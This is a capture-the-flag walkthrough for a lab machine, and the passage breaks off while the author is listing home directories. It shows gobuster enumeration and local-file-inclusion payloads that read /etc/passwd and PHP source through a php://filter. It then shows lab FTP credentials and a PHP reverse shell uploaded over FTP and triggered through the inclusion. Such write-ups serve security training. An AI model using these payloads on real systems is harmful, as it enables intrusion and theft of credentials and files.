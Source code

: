 Looking at the page, `post.php` tells us this is a PHP server so we run `gobuster` with that extension.

```sh
/index.php            (Status: 200) [Size: 4826]
/post.php             (Status: 200) [Size: 2422]
/css                  (Status: 200) [Size: 1161]
/round.php            (Status: 200) [Size: 3440]
/bunch.php            (Status: 200) [Size: 3445]
/server-status        (Status: 403) [Size: 271]
```

The page `post.php` takes in a `post` parameter and gives us the corresponding file. We can use this to exploit LFI (Local File Inclusion) by specifying a file in the `post` parameter. We can easily grab `/etc/passwd`.

```
http://box.ip/post.php?post=/etc/passwd
```

We can also grab PHP files by using a base64-encoding filter.

```
http://box.ip/post.php?post=php://filter/convert.base64-encode/resource=index.php
```

However, `index.php` and `post.php` don't contain interesting new information. `/etc/passwd` does give us 3 non-root users with shells: `will`, `mat`, and `toby`. I also tried using `expect://` to get code execution but that doesn't work. We can also get the previously inaccessible `secret_file_do_not_read.txt`

```
Hi Mat,

The credentials for the FTP server are below. I've set the files to be saved to /home/ftpuser/ftp/files.

Will

----------

ftpuser:givemefiles777
```

We have FTP credentials. After logging in, we can grab `flag_2.txt`. There's also the `files` directory but that's empty. However, we do know that it should be the directory `/home/ftpuser/ftp/files` on the machine so we can upload files. In this case, I uploaded a PHP reverse shell, set up a listener, and made a request to `http://box.ip/post.php?post=/home/ftpuser/ftp/files/shell.php` to get a shell on the machine as `www-data`.

Looking at `/var/www/html`, we have the directory `more_secrets_a9f10a` inside which we have flag 3. Looking at the home directories ...

```sh
www-data@watcher:/var/www/html/more_secrets_a9f10a$ ls -la /home/*
/home/ftpuser:
total 12
dr-xr-xr-x 3 root   root    4096 Dec  3  2020 .
drwxr-xr-x 6 root   root    4096 Dec  3  2020 ..
dr-xr-xr-x 3 nobody nogroup 4096 Dec  3  2020 ftp

/home/mat:
total 312
drwxr-xr-x 6 mat  mat    4096 Dec  3  2020 .
drwxr-xr-x 6 root root   4096 Dec  3  2020 ..
lrwxrwxrwx 1 root root      9 Dec  3  2020 .bash_history -> /dev/null
-rw-r--r-- 1 mat  mat     220 Dec  3  2020 .bash_logout
-rw-r--r-- 1 mat  mat    3771 Dec  3  2020 .bashrc
drwx------ 2 mat  mat    4096 Dec  3  2020 .cache
drwx------ 3 mat  mat    4096 Dec  3  2020 .gnupg
```